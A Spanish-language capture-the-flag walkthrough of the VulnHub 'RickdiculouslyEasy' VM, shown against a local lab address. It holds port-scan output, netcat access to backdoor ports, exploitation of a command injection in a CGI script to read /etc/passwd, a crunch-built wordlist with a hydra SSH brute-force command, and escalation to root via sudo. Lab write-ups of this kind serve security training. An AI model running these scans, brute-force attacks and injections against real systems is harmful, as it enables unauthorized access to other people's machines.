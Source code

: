# Rickdiculously
Desarrollo del CTF Rickdiculously

## 1. Configuración de la VM

- Download de la VM: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/
- Esta VM tiene por objetivo obtener 130 puntos.


## 2. Escaneo de Puertos

```
Nmap 7.91 scan initiated Tue Apr 27 00:13:09 2021 as: nmap -n -P0 -p- -sC -sV -O -T5 -oA full 192.168.56.106
Nmap scan report for 192.168.56.106
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh?
| fingerprint-strings: 
|   NULL: 
|_    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp  open  http    Cockpit web service 161 or earlier
|_http-title: Did not follow redirect to https://192.168.56.106:9090/
13337/tcp open  unknown
| fingerprint-strings: 
|   NULL: 
|_    FLAG:{TheyFoundMyBackDoorMorty}-10Points
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (ED25519)
60000/tcp open  unknown
|_drda-info: ERROR
| fingerprint-strings: 
|   NULL, ibm-db2: 
|_    Welcome to Ricks half baked reverse shell...
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick1.jpg" width=80% />

## 3. Enumeración 

## 3.1. Acceso directo a servicios

- Existen puertos sobre los cuales podemos probar accesos por NETCAT

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# nc 192.168.56.106 60000
Welcome to Ricks half baked reverse shell...
# whoami
root 
# ls
FLAG.txt 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# nc 192.168.56.106 13337                                                                                                           1 ⨯
FLAG:{TheyFoundMyBackDoorMorty}-10Points
```
<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick2.jpg" width=80% />

## 3.2. Enumeración HTTP

```
┌──(root💀kali)-[~/tools/dirsearch]
└─# python3 dirsearch.py -u http://192.168.56.106/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
/root/tools/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt, html, php, asp, aspx, jsp | HTTP method: GET | Threads: 16 | Wordlist size: 1133344

Error Log: /root/tools/dirsearch/logs/errors-21-04-28_22-45-16.log

Target: http://192.168.56.106/

Output File: /root/tools/dirsearch/reports/192.168.56.106/_21-04-28_22-45-16.txt

[22:45:16] Starting: 
[22:45:16] 403 -  217B  - /cgi-bin/     (Added to queue)
[22:45:29] 200 -  326B  - /index.html
[22:45:53] 200 -   72KB - /icons/     (Added to queue)
[22:46:09] 200 -  126B  - /robots.txt
[22:47:03] 200 -    1KB - /passwords/     (Added to queue)
[22:47:03] 301 -  240B  - /passwords  ->  http://192.168.56.106/passwords/
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick3.jpg" width=80% />

- Identificamos el archivo robots.txt y archivos CGI.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick4.jpg" width=80% />

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick5.jpg" width=80% />

- El archivo tracertool.cgi tiene una inyección de comandos y podemos concatenar comandos con el punto y coma (;). Además, el comando CAT no funciona, por eso utilizamos el comando TAIL.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick6.jpg" width=80% />

- Enumeramos los usuarios del sistema operativo.

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:996:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

- En la carpeta /passwords encontramos un flag y una contraseña: winter.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick7.jpg" width=80% />

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick8.jpg" width=80% />


## 4. Acceso al Sistema

### 4.1. Acceso por SSH

- Probamos la contraseña obtenida en los usuarios del sistema enumerados. Con el usuario Summer:winter, podemos ingresar.

```                                                                                                                                           
┌──(root💀kali)-[/home/kali]
└─# ssh -p 22222 Summer@192.168.56.106
Summer@192.168.56.106's password: 
Last login: Thu Apr 29 00:59:36 2021 from 192.168.56.104
[Summer@localhost ~]$ whoami
Summer
[Summer@localhost ~]$ pwd
/home/Summer
[Summer@localhost ~]$ 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick9.jpg" width=80% />

### 4.2. Enumeración de información en la carpeta /home

```
[Summer@localhost home]$ ls -laR /home
/home:
total 0
drwxr-xr-x.  5 root        root         52 Aug 18  2017 .
dr-xr-xr-x. 17 root        root        236 Aug 18  2017 ..
drwxr-xr-x.  2 Morty       Morty       131 Sep 15  2017 Morty
drwxr-xr-x.  4 RickSanchez RickSanchez 113 Sep 21  2017 RickSanchez
drwx------.  2 Summer      Summer      111 Apr 29 02:10 Summer

/home/Morty:
total 64
drwxr-xr-x. 2 Morty Morty   131 Sep 15  2017 .
drwxr-xr-x. 5 root  root     52 Aug 18  2017 ..
-rw-------. 1 Morty Morty     1 Sep 15  2017 .bash_history
-rw-r--r--. 1 Morty Morty    18 May 30  2017 .bash_logout
-rw-r--r--. 1 Morty Morty   193 May 30  2017 .bash_profile
-rw-r--r--. 1 Morty Morty   231 May 30  2017 .bashrc
-rw-r--r--. 1 root  root    414 Aug 22  2017 journal.txt.zip
-rw-r--r--. 1 root  root  43145 Aug 22  2017 Safe_Password.jpg

/home/RickSanchez:
total 12
drwxr-xr-x. 4 RickSanchez RickSanchez 113 Sep 21  2017 .
drwxr-xr-x. 5 root        root         52 Aug 18  2017 ..
-rw-r--r--. 1 RickSanchez RickSanchez  18 May 30  2017 .bash_logout
-rw-r--r--. 1 RickSanchez RickSanchez 193 May 30  2017 .bash_profile
-rw-r--r--. 1 RickSanchez RickSanchez 231 May 30  2017 .bashrc
drwxr-xr-x. 2 RickSanchez RickSanchez  18 Sep 21  2017 RICKS_SAFE
drwxrwxr-x. 2 RickSanchez RickSanchez  26 Aug 18  2017 ThisDoesntContainAnyFlags

/home/RickSanchez/RICKS_SAFE:
total 12
drwxr-xr-x. 2 RickSanchez RickSanchez   18 Sep 21  2017 .
drwxr-xr-x. 4 RickSanchez RickSanchez  113 Sep 21  2017 ..
-rwxr--r--. 1 RickSanchez RickSanchez 8704 Sep 21  2017 safe

/home/RickSanchez/ThisDoesntContainAnyFlags:
total 4
drwxrwxr-x. 2 RickSanchez RickSanchez  26 Aug 18  2017 .
drwxr-xr-x. 4 RickSanchez RickSanchez 113 Sep 21  2017 ..
-rw-rw-r--. 1 RickSanchez RickSanchez  95 Aug 18  2017 NotAFlag.txt

/home/Summer:
total 32
drwx------. 2 Summer Summer  111 Apr 29 02:10 .
drwxr-xr-x. 5 root   root     52 Aug 18  2017 ..
-rw-------. 1 Summer Summer 1765 Apr 29 03:21 .bash_history
-rw-r--r--. 1 Summer Summer   18 May 30  2017 .bash_logout
-rw-r--r--. 1 Summer Summer  193 May 30  2017 .bash_profile
-rw-r--r--. 1 Summer Summer  231 May 30  2017 .bashrc
-rw-rw-r--. 1 Summer Summer   48 Aug 22  2017 FLAG.txt
-rwxr--r--. 1 Summer Summer 8704 Apr 29 02:10 safe
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick10.jpg" width=80% />

- Me llama la atención los archivos: journal.txt.zip y Safe_Password.jpg. Los descargamos y analizamos.

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# wget http://192.168.56.106:8080/journal.txt.zip
--2021-04-28 23:10:41--  http://192.168.56.106:8080/journal.txt.zip
Connecting to 192.168.56.106:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 414 [application/zip]
Saving to: ‘journal.txt.zip’

journal.txt.zip                    100%[==============================================================>]     414  --.-KB/s    in 0s      

2021-04-28 23:10:41 (56.2 MB/s) - ‘journal.txt.zip’ saved [414/414]

                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# wget http://192.168.56.106:8080/Safe_Password.jpg
--2021-04-28 23:10:51--  http://192.168.56.106:8080/Safe_Password.jpg
Connecting to 192.168.56.106:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43145 (42K) [image/jpeg]
Saving to: ‘Safe_Password.jpg’

Safe_Password.jpg                  100%[==============================================================>]  42.13K  --.-KB/s    in 0s 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick11.jpg" width=80% />

- La imagen contiene un mensaje escondido. Vamos analizarlo.

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# strings Safe_Password.jpg| more
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
	#3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick12.jpg" width=80% />

- Descomprimimos el archivo y colocamos la contraseña obtenida: Meeseek

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# unzip journal.txt.zip   
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt             
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# ls
autorecon  FLAG.txt  full.gnmap  full.nmap  full.xml  journal.txt  journal.txt.zip  live.txt  safe  Safe_Password.jpg  users.txt
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick13.jpg" width=80% />

- Encontramos una contraseña: 131333, asociada al usuario Rick y un archivo llamado SAFE, asi que vamos a analizar su carpeta /home.
- Copiamos el archivo SAFE a un directorio donde podamos ejecutarlo. Lo ejecuamos y nos piden una contraseña como argumento.

```
[Summer@localhost Morty]$ cd /home/RickSanchez/
[Summer@localhost RickSanchez]$ ls
RICKS_SAFE  ThisDoesntContainAnyFlags
[Summer@localhost RickSanchez]$ cd RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ ls
safe
[Summer@localhost RICKS_SAFE]$ ./safe
-bash: ./safe: Permission denied
[Summer@localhost RICKS_SAFE]$ cp safe /tmp/
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick14.jpg" width=80% />


### 4.3. Cracking ONLINE

- El mensaje indica que la contraseña del usuario RICKS tiene una estructura: 1 Mayúscula + 1 numéro + Una palabra de banda antigua.
- ¿Banda antigua? Se me vino a la mente algo como U2 pero luego noté que las imagenes estan asociadas a una serie llamada Rick and Morty (que nunca he visto) pero tocaba buscarlo en Google. La banda se llamaba Flesh Curtains.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick15.jpg" width=80% />

- Toca armar un pequeño script para armar todas las posibles contraseñas. Con CRUNCH podemos crear la contraseña en base a patrones.
- Con CRUNCH el comodin coma (,) ingresa un caracter en mayúscula y el comodin porcentaje (%) ingresa un número.


```
┌──(root💀kali)-[/home/kali]
└─# crunch 7 7 -t ,%Flesh > diccionario1.txt     
Crunch will now generate the following amount of data: 2080 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260 
                                                                                                                                           
┌──(root💀kali)-[/home/kali]
└─# crunch 10 10 -t ,%Curtains > diccionario2.txt
Crunch will now generate the following amount of data: 2860 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick16.jpg" width=80% />

```
┌──(root💀kali)-[/home/kali]
└─# hydra -t 4 -l RickSanchez -P diccionario2.txt ssh://192.168.56.106:22222
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-28 23:47:32
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 260 login tries (l:1/p:260), ~65 tries per task
[DATA] attacking ssh://192.168.56.106:22222/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 216 to do in 00:05h, 4 active
[STATUS] 33.67 tries/min, 101 tries in 00:03h, 159 to do in 00:05h, 4 active
[22222][ssh] host: 192.168.56.106   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick17.jpg" width=80% />


```
┌──(root💀kali)-[/home/kali]
└─# ssh -p 22222 RickSanchez@192.168.56.106
RickSanchez@192.168.56.106's password: 
Last failed login: Thu Apr 29 04:09:42 AEST 2021 from 192.168.56.104 on ssh:notty
There were 4950 failed login attempts since the last successful login.
Last login: Thu Sep 21 09:45:24 2017
[RickSanchez@localhost ~]$ ls -la
total 12
drwxr-xr-x. 4 RickSanchez RickSanchez 113 Sep 21  2017 .
drwxr-xr-x. 5 root        root         52 Aug 18  2017 ..
-rw-r--r--. 1 RickSanchez RickSanchez  18 May 30  2017 .bash_logout
-rw-r--r--. 1 RickSanchez RickSanchez 193 May 30  2017 .bash_profile
-rw-r--r--. 1 RickSanchez RickSanchez 231 May 30  2017 .bashrc
drwxr-xr-x. 2 RickSanchez RickSanchez  18 Sep 21  2017 RICKS_SAFE
drwxrwxr-x. 2 RickSanchez RickSanchez  26 Aug 18  2017 ThisDoesntContainAnyFlags
[RickSanchez@localhost ~]$ sudo -l
[sudo] password for RickSanchez: 
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL
[RickSanchez@localhost ~]$ sudo su
[root@localhost RickSanchez]# pwd
/home/RickSanchez
```
<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick18.jpg" width=80% />











